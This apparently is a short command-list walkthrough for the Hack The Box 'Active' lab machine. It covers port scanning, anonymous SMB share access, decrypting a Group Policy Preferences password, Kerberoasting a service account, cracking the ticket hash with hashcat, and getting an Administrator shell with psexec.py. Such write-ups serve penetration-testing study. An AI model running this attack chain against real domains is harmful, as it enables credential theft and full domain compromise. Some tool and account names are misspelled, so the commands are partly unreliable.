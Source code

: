 ping 10.10.10.100
whatweb 10.10.10.100

echo "10.10.10.100 active.htb" > /etc/hosts

nmap -p- --min-rate 10000 active.htb
nmap -sC -sV active.htb

smbclient -N -L //active.htb
smbclient -N \\\\active.htb\\replication

Find MACHINE/Preferences/Groups dir
get Groups.xml
cat Groups.xml -> find encrypt pass

gpp-decrypt <encrypt pass> -> get decrypt pass

Download GetADUsers.py script -> insert decrypt pass
GetADUsers.py -all active.htb/svc-tgs -dc-ip active.htb

Download GetUsersSPNs.py script
GetUsersSPNs.py active.htb/SVG_TGS -> insert decrypt pass
GetUsersSPNs.py -request active.htb/SVG_TGS -> insert decrypt pass -> GET KERBEROS TICKET HASH

hashcat -m 13100 <HASH FILE> ./rockyou.txt --force
hashcat -m 13100 ./rockyou.txt --show

Download psexec.py
psexec.py active.htb/Administrator@active.htb

get user.txt e root.txt
